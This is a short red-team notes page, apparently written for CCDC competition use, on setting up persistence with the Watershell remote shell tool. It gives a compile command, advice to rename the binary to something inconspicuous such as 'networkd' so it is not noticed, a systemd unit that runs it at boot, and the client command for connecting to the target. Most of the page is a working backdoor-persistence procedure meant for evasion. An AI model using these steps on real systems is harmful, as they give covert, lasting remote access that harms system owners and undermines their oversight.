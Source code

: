 # Watershell

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool and why I fell in love with it.&#x20;

General steps for persistence with Watershell:

1. Compile the binary: \
   `g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}`
   1. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to compiling.
2. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`
3.  Setup a service to execute the binary, the following demonstrates an example configuration:

    ```
    [Unit]
    description=persistence
    after=network.target

    [Service]
    type=simple
    execstart=/bin/networkd

    [Install]
    wantedby=multi-user.target
    ```
4. Connect to the target using `watershell-cli.py` using the following command:\
   `python3 watershell-cli.py -t [IP] -p [PORT]`
